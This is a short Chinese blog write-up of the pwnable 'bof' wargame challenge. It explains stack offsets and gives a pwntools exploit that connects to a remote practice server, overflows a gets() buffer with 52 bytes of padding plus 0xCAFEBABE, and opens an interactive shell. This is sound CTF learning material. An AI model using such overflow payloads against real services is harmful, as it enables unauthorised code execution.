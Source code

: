 ```yaml
---
title: pwnable靶场ak-WP （3）bof利用
poc: true
categories:
  - [信息安全, 二进制]
  - [笔记,存档]
tags: []
id: '650'
date: 2021-09-01 21:58:24
---
```


## 背景

自己琢磨了一下口算十六进制的加减法和正负数运算，在EBP分界处计算偏移还是挺有用的

## 正文

本体难度低，补一个栈笔记就行

虽然栈是向低地址增长的，但是由于宏观遍历和微观计数器变化需要统一——即当从0遍历到高位时，计数器从0开始步进，步长为1，因此gets一次性存储一个长字符串时，字符串的低位字符，存在地址的高位（看起来似乎和小端相反，但前面也说过，其实小端研究的不是这个）

EXP如下

```
from pwn import *
conn=remote("128.61.240.205",9000)
conn.sendline('AAAA'*13+ p32(0xCAFEBABE))
conn.interactive()
```

payload是

AAAA....AAAACAFEBABE

字符串低位CAFEBABE储存在栈的高位（ebp栈底之外）

![](https://raw.githubusercontent.com/Valkierja/ALLPIC/main/img/202303181053924.png)